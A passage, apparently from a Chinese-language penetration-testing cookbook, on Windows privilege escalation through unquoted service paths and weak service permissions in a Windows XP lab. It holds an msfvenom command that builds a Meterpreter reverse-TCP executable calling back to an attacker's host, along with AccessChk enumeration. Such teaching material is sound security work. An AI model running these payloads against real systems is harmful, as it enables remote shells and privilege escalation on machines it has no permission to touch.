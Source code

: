   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP   Address>   LPORT=<Your Port to Connect On> -f exe > Program.exe

```

在上述命令中，`-p`代表有效载荷，`LHOST`和`LPORT`是有效载荷的要求，`-f`表示生成有效载荷的格式。

要获取更多信息，请输入以下命令：

```
  Msfvenom -h

```

## 还有更多...

更多未加引号的服务路径利用示例可在 exploit-db 上找到。使用以下 Google dork 命令获取更多信息：

```
intitle:unquoted site:exploit-db.com 

```

## 参见...

+   关于未加引号的服务路径利用的两篇优秀白皮书可以在[`trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/`](https://trustfoundry.net/practical-guide-to-exploiting-the-unquoted-service-path-vulnerability-in-windows/)和[`www.gracefulsecurity.com/privesc-unquoted-service-path/`](https://www.gracefulsecurity.com/privesc-unquoted-service-path/)找到。

# 服务权限问题

在这个教程中，我们将看看如何提升弱配置服务的权限。这里的核心关注点是，当一个服务被赋予所有访问权限时。可以想象当一个服务以系统权限运行时给予所有访问权限的恐怖。在这个教程中，我们将看一个案例研究，Windows XP 被装载了有漏洞的服务，并且可以以低权限用户的身份执行系统级命令。当这种情况可能发生时，很容易利用并提升权限到系统级。

## 准备工作

对于这个活动，我们将需要一台 Windows XP 机器。我们将利用运行在 Windows XP 操作系统上的 UPnP 服务。**UPnP**代表**通用即插即用**协议。我们还需要 Windows Sysinternals 套件中提供的**AccessChk**工具。它可以从([`technet.microsoft.com/en-us/bb842062`](https://technet.microsoft.com/en-us/bb842062))下载。让我们继续并开始我们的教程。

## 如何操作...

1.  Windows XP 机器启动后，使用具有用户权限的用户名登录，在`accesschk.exe`文件所在的文件夹中打开命令提示符，并运行以下命令：

```
    accesschk.exe /accepteula -uwcqv "Authenticated Users" *

    ```

输出将如下截图所示：

![操作步骤...](img/image_09_016.jpg)
